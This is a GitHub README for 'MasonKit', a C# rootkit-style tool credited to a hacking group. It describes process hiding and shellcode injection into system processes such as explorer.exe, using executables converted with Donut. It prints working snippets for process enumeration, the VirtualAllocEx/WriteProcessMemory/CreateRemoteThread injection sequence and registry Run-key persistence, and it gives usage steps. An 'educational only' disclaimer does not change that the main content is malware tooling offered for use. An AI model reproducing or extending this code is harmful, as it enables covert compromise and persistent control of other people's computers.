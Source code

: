 # MasonKit(Doesn't need UAC)
<p align="center">
  <img src="https://i.ibb.co/LzP0f7G3/image.png" alt="App" />
</p>
## Overview
MasonKit is a **Rootkit** project developed by **ABOLHB** from the **FREEMASONRY** group. The primary purpose of this tool is to **hide a program from the process list** and **inject it into any system file** of your choice. This project is intended for **educational purposes only**, and the creator and contributors are **not responsible** for any misuse or illegal activities performed using this tool.

---

## Disclaimer
This project is shared for **educational and research purposes only**. The creator, contributors, and the FREEMASONRY group are **not responsible** for any illegal or unethical use of this tool. Use it at your own risk, and ensure you have proper authorization before using it in any environment.

---

## Features
1. **Process Hiding**: The Rootkit hides the target process from the system's process list.
2. **Shellcode Injection**: Injects custom shellcode into a specified system process.
3. **Persistence**: Optionally adds the Rootkit to the system's startup registry.
4. **Customizable**: Allows users to specify the target process and shellcode file.

---

## Code Explanation

### 1. **Main Components**
The project is built using **C#** and utilizes the **Windows API** for low-level system operations. Below is a detailed breakdown of the code:

---

### 2. **MasonForm Class**
This is the main form class for the application. It handles user interactions and initiates the Rootkit functionality.

#### Key Methods:
- **`Form1_Load`**: Initializes the form and sets default values for UI elements.
- **`guna2Button1_Click`**: Handles the injection process. It reads the shellcode from a `.bin` file, compiles it into a new executable, and injects it into the target process.
- **`guna2Button2_Click`**: Allows the user to select an executable file, converts it into shellcode using **Donut**, and saves it as `shellcode.bin`.

---

### 3. **Rootkit Functionality**
The Rootkit is implemented in the dynamically generated C# code. Below is a breakdown of its key components:

#### **Constants and Imports**
```csharp
const int PROCESS_ALL_ACCESS = 0x1F0FFF;
const uint MEM_COMMIT = 0x1000;
const uint MEM_RESERVE = 0x2000;
const uint PAGE_EXECUTE_READWRITE = 0x40;
const uint MEM_RELEASE = 0x8000;
```
These constants define memory allocation and process access permissions.

#### **Windows API Functions**
- **`CreateToolhelp32Snapshot`**: Takes a snapshot of the system's processes.
- **`Process32First`** and **`Process32Next`**: Enumerate processes in the snapshot.
- **`OpenProcess`**: Opens a handle to the target process.
- **`VirtualAllocEx`**: Allocates memory in the target process.
- **`WriteProcessMemory`**: Writes shellcode into the allocated memory.
- **`CreateRemoteThread`**: Executes the shellcode in the target process.

#### **Process Enumeration**
```csharp
static uint GetProcessIdByName(string processName)
{
    uint processId = 0;
    IntPtr snapshot = CreateToolhelp32Snapshot(0x2, 0);
    PROCESSENTRY32 processEntry = new PROCESSENTRY32 { dwSize = (uint)Marshal.SizeOf(typeof(PROCESSENTRY32)) };
    if (Process32First(snapshot, ref processEntry))
    {
        do
        {
            if (processName == processEntry.szExeFile)
            {
                processId = processEntry.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, ref processEntry));
    }
    CloseHandle(snapshot);
    return processId;
}
```
This function retrieves the process ID of the target process by name.

#### **Shellcode Injection**
```csharp
IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
IntPtr pRemoteMemory = VirtualAllocEx(hProcess, IntPtr.Zero, shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, pRemoteMemory, shellcode, shellcode.Length, out int bytesWritten);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, pRemoteMemory, IntPtr.Zero, 0, IntPtr.Zero);
```
This code injects the shellcode into the target process and executes it.

#### **Persistence**
```csharp
static void AddToStartup()
{
    string appPath = System.Reflection.Assembly.GetExecutingAssembly().Location;
    using (RegistryKey key = Registry.CurrentUser.OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true))
    {
        if (key != null)
        {
            key.SetValue("MyApplication", appPath);
        }
    }
}
```
This method adds the Rootkit to the system's startup registry for persistence.

---

### 4. **Donut Integration**
The project uses **Donut** to convert executable files into shellcode. The shellcode is then injected into the target process.

---

## Usage
1. **Select Target Process**: Enter the name of the target process (e.g., `explorer.exe`).
2. **Load Shellcode**: Use the `Load Shellcode` button to convert an executable into shellcode.
3. **Inject**: Click the `Inject` button to inject the shellcode into the target process.
4. **Persistence**: Enable the `Add to Startup` checkbox to ensure the Rootkit runs on system startup.

---

## Ethical Considerations
- **Authorization**: Always ensure you have proper authorization before using this tool.
- **Legal Compliance**: Misuse of this tool may violate local and international laws.
- **Educational Use**: This project is intended for educational purposes only.

---

## Credits
- **ABOLHB**: Creator of MasonKit.
- **FREEMASONRY Group**: The group behind the project.

---

## Links
- [Discord Server](https://discord.gg/dvXH85CfpN)
- [Instagram](https://www.instagram.com/g7m9)

